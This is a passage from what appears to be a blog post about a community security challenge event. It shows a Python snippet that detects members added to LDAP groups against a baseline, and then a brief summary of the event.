baseline_value = self.baseline_attrs.get(attr)
current_value = current_attrs.get(attr)
# handle modifications in `member` attributes
if attr == "member":
baseline_members = set(baseline_value) if baseline_value else set()
current_members = set(current_value) if current_value else set()
added_members = current_members - baseline_members
removed_members = baseline_members - current_members
# someone added members to a group
for member in added_members:
changes.append(
LDAPChange(
change_type=ChangeType.MEMBER_ADDED,
dn=dn,
attribute="member",
old_value=None,
new_value=member,
timestamp=timestamp,
)
)
This can be manually extended to monitor for all other attributes that are relevant to the environment, such as the userAccountControl, msDS-AllowedToDelegateTo, etc.
Summary
Overall, we found that the event was a great success, with many participants enjoying the challenges and learning new skills. Partnering with The Range Village once again was a pleasure, and we’re more than happy to help out with communiy-driven events like these.